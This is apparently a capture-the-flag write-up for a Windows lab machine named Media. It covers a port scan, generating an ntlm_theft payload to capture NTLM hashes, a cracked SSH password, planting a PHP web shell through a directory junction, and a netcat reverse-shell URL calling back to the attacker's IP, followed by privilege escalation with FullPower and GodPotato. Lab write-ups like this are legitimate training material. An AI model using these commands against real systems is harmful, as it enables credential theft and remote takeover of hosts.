




# Enumeration
```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 0b:b3:c0:80:40:88:e1:ae:aa:3b:5f:f4:c2:23:c0:0d (RSA)
|   256 e0:80:3f:dd:b1:f8:fc:83:f5:de:d5:b3:2d:5a:4b:39 (ECDSA)
|_  256 b5:32:c0:72:18:10:0f:24:5d:f8:e1:ce:2a:73:5c:1f (ED25519)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2024-04-02T07:31:21
|_Not valid after:  2024-10-02T07:31:21
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-03T07:32:26+00:00
|_ssl-date: 2024-04-03T07:32:32+00:00; -2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
Now we discover a file upload and the file is opened in windows media player
We can use **ntlm_theft** to steal NTLM hashes:
To generate payload:
```
python3 ntlm_theft.py --generate wax --server 10.8.1.208 --filename payload
```
We receive the hashes in responder:
Now cracking in hashcat: *enox : 1234virus@*
Using these creds for ssh we get a shell:

Now we can access the files of the website at ` C:\xampp\htdocs>`
And analysing the index.php file we can tell where uploaded files go:

We can upload a shell.php and symlink junction it to `C:\xampp\htdocs`.

```
mklink /J C:\Windows\Tasks\Uploads\0c5cb0e2f2633bb6ab6497d9dde23df0 C:\xampp\htdocs
```

Now uploading shell.php we can access it in root directory 
and execute whoami

Now getting a reverse shell with netcat
http://media.vl/shell.php?cmd=c:\\temp\\nc64.exe+-e+cmd.exe+10.8.1.208+9005

Then using Fullpower and Godpotato we get administrator.